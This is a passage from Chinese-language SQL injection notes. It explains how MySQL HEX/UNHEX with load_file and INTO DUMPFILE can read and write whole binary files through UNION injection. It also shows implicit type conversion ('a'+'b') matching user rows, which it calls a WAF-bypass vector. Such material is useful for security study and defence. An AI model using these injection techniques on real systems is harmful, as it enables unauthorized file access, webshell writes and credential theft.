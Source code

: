 MYSQL只要数据能在对应数据类型的列中完整存储，就可以导出任意文件名的完整文件。也就是说，我们把二进制文件用HEX()编码后可以存储在TEXT数据类型等非二进制编码的字段上，导出时UNHEX()解码依然能保存为完整的二进制文件。如  
```
mysql>create table a (id int,cmd TEXT);
mysql>insert into a (id,cmd) values (1,hex(load_file('c:\\windows\\system32\\regedt32.exe')));
mysql>select unhex(cmd) FROM a where id =1 INTO DUMPFILE 'd:\\regedt32.exe';
```
语句中unhex(cmd)已经改变了所选字段的数据类型为二进制，因此可以导出完整的二进制文件，而在注入中我们用UNION连接SELECT语句时，UNION后面查询的字段数量、字段数据类型都得与最前面的SELECT一样，此时  

`SELECT cmd FROM a where id=1 and 1=2 UNION SELECT unhex(cmd) FROM a INTO DUMPFILE 'd:\\regedt32.exe';`

语句中unhex(cmd)字段的数据类型与最前面的cmd字段的数据类型不同，二进制编码的数据无法在TEXT数据类型中完整储存，因此无法导出完整的二进制文件。要导出完整的二进制文件，最前面SELECT所选的字段中必须有以二进制存储数据的数据类型，如BLOB,LONGBLOB等。  

如果使用INTO DUMPFILE导出数据，则MySQL只把一行写入到文件中，不对任何列或行进行终止，也不执行任何转义处理。INTO DUMPFILE 的这个特性说白了就是“无缝连接”，它既可以用于从列中导出数据到文件，也可以用于从表中导出数据到文件。  

UNHEX()函数执行从HEX()的反向操作，0x 作用与UNHEX()意义相同。就是说，它将参数中的每一对十六进制数字理解为一个数字，并将其转化为该数字代表的字符，结果字符以二进制字符串的形式返回。  

## 五、mysql 的类型隐式转换
```
mysql> SELECT * FROM users WHERE username = 'a'+'b' AND password = 'a'+'b';
+--------+----------+--------------------+
| userid | username | password           |
+--------+----------+--------------------+
|      1 | admin    | MySuperS3cretPass! |
+--------+----------+--------------------+
1 row in set, 7 warnings (0.00 sec)
mysql> SELECT * FROM users WHERE username = 'a'+'666' AND password = 'a'+'b';
+--------+----------+----------+
| userid | username | password |
+--------+----------+----------+
|      2 | 666admin | nataSmaI |
+--------+----------+----------+
```
加号在这里是算术运算符，故会产生类型转换为double，如下引用所示：  
> When an operator is used with operands of different types, type conversion occurs to make the operands compatible.
In all other cases, the arguments are compared as floating-point (real) numbers.  

这是一条绕过 WAF 的 vector。  

## Reference
[sql-injection-cheat-sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)  
[Implicit type conversion in MySQL](https://tom.vg/2013/04/mysql-implicit-type-conversion/)  
[sql_injection](http://websec.ca/kb/sql_injection)  
